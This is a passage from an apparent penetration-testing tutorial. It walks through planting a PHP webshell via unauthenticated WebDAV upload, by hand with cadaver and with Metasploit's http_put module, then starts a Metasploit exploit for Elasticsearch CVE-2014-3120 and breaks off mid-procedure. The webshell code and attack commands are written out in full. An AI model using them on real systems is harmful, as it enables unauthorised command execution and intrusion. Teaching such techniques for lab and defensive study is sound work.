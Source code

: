 
#### Tutorial 3: Exploiting WebDAV Misconfigurations

- **Vector:** The web server operating on port 8585 has WebDAV (Web Distributed Authoring and Versioning) enabled on the `/uploads/` directory. Critically, it is misconfigured to require no authentication, permitting any user to upload files directly to the web root.24
    
- **Tools:** `cadaver` (a command-line WebDAV client) for manual exploitation, and the Metasploit Framework for an automated approach.
    
- **Manual Procedure:**
    
    1. **Craft a Webshell:** Create a simple PHP file named `shell.php`. The code allows for command execution via a URL parameter: `<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; }?>`.
        
    2. **Connect and Upload:** Use `cadaver` to connect to the vulnerable directory: `cadaver http://<TARGET_IP>:8585/uploads/`.
        
    3. Within the `cadaver` interactive prompt, use the `put shell.php` command to upload the webshell from the local machine to the server.
        
    4. **Execute Commands:** Access the shell in a web browser and pass commands via the `cmd` parameter: `http://<TARGET_IP>:8585/uploads/shell.php?cmd=whoami`. The server will execute the `whoami` command and return the output to the browser.
        
- **Metasploit Procedure:**
    
    1. Load the `http_put` auxiliary module: `use auxiliary/scanner/http/http_put`.
        
    2. Configure the module to upload the webshell:
        
        - `set RHOSTS <TARGET_IP>`
            
        - `set RPORT 8585`
            
        - `set PATH /uploads/shell.php`
            
        - `set FILEDATA "<?php system($_GET['cmd']);?>"`
            
    3. Execute with `run`. The module will perform the PUT request, placing the webshell on the target.
        

#### Tutorial 4: Compromising Elasticsearch (CVE-2014-3120)

- **Vector:** The target is running an outdated version of Elasticsearch (1.1.1). This version is vulnerable to a critical RCE flaw in its dynamic scripting feature, which is enabled by default.25 Unlike the previous examples, this is a direct software vulnerability, not merely a configuration error.
    
- **Tool:** Metasploit Framework.
    
- **Procedure:**
    
    1. Select the Elasticsearch exploit module: `use exploit/multi/elasticsearch/script_mvel_rce`.27
        
    2. Set the target information:
        
        - `set RHOSTS <TARGET_IP>`
            
        - `set RPORT 9200`
            